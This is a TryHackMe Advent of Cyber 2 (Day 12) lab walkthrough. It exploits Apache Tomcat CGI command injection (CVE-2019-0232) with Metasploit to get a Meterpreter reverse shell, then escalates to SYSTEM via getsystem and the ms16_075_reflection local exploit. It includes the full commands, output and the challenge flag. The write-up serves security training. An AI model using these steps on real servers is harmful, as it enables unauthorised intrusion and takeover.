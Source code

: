 # Day 12 - Ready, set, elf

**Date:** 12, December, 2020

**Author:** Dhilip Sanjay S

---

## Learning Objectives
- [Common Gateway Interface (or) CGI](https://www.tcl.tk/man/aolserver3.0/cgi-ch1.htm)
    - Standard means of communicating and processing data between a client such as a web browser to a web server.
    - CGI Scripts are stored in `/cgi-bin/` folder. 
        - **Example:**`systeminfo.sh` shows the date and time.
    - By adding `?&<command>` to the URL, you can check whether your command is executed and you get the output.
        - For Linux- `ls`
        - For Windows - `systeminfo`
    - **Note:** Special characters will be [URL Encoded](https://www.techopedia.com/definition/10346/url-encoding)

- [Metasploit](https://www.metasploit.com/)
---

## Solutions
### 1) What is the version number of the web server?
- **Answer:** 9.0.17
- **Steps to Reproduce:** Use `nmap` or visit `<MACHINE_IP>:8080` on browser
---

### What CVE can be used to create a Meterpreter entry onto the machine?
- **Answer:** CVE-2019-0232 (Apache Tomcat - CGIServlet enableCmdLineArguments Remote Code Execution (Metasploit))
- **Steps to Reproduce:** 
    - Use `msfconsole` (Metasploit) or [Exploit-DB](https://www.exploit-db.com/)
    - Search `Apache Tomcat 9.0` - For Windows

---

### What are the contents of flag1.txt
- **Answer:** thm{whacking_all_the_elves}
- **Steps to Reproduce:** 
    - msf6>`search apache tomcat 9.0`
        ```bash        
        Matching Modules
        ================

        #  Name                                         Disclosure Date  Rank       Check  Description
        -  ----                                         ---------------  ----       -----  -----------
        0  exploit/windows/http/tomcat_cgi_cmdlineargs  2019-04-10       excellent  Yes    Apache Tomcat CGIServlet enableCmdLineArguments Vulnerability
        ```
        
    - msf6>`use 0`
    - `set LHOST <Your_TryHackMe_IP>`
    - `set RHOSTS <MACHINE_IP>`
    - `set TARGETURI /cgi-bin/elfwhacker.bat`
    - Verify the settings by typing `options`
    - Type `run`. You'll get the Meterpreter shell.
    - meterpreter>`shell`
    - Now you'll get a shell on the Target machine
    - To view the flag - `type flag1.txt`

### Looking for a challenge? Try to find out some of the vulnerabilities present to escalate your privileges!
- **Privilege Escalation:**
    - [Offensive Security Article](https://www.offensive-security.com/metasploit-unleashed/privilege-escalation/)
    - [Null Byte Article](https://null-byte.wonderhowto.com/how-to/get-root-with-metasploits-local-exploit-suggester-0199463/)

    ### 1. Using `getsystem` command
    - **Before Escalation:**
        ```powershell
        meterpreter > getuid
        Server username: TBFC-WEB-01\elfmcskidy    
        ```
    - **Escalation:**
        ```powershell
        meterpreter> use priv
        Loading extension priv...success.

        meterpreter> getsystem
        ...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
        ```
    
    - **Post Esclation:**
        ```powershell
        meterpreter> getuid
        Server username: NT AUTHORITY\SYSTEM
        ```

    ### 2. Using Local Exploits 
    - If `getsystem` fails:
        ```powershell
        meterpreter > getsystem
        [-] priv_elevate_getsystem: Operation failed: Access is denied.        
        ```

    - Run the command:
     ```powershell
     meterpreter> run post/multi/recon/local_exploit_suggester SHOWDESCRIPTION=true
        [+] 10.10.xxx.xxx - exploit/windows/local/cve_2020_0787_bits_arbitrary_file_move: The target appears to be vulnerable. Vulnerable Windows 10 v1809 build detected!
        [+] 10.10.xxx.xxx - exploit/windows/local/cve_2020_1048_printerdemon: The target appears to be vulnerable.
        [+] 10.10.xxx.xxx - exploit/windows/local/ikeext_service: The target appears to be vulnerable.
        [+] 10.10.xxx.xxx - exploit/windows/local/ms16_075_reflection: The target appears to be vulnerable.    
    ```
    - Only `exploit/windows/local/ms16_075_reflection` is used for privilege escalation.
    - Move the current meterpreter to background.
    - Set the options along with `session` and then run the above mentioned exploit using the command `exploit`.
    - Now you will get the shell with admin access.
    ```powershell
        meterpreter> getuid
        Server username: NT AUTHORITY\SYSTEM
    ```

---

[Back to Advent of Cyber 2](/Advent%20of%20Cyber%202) 
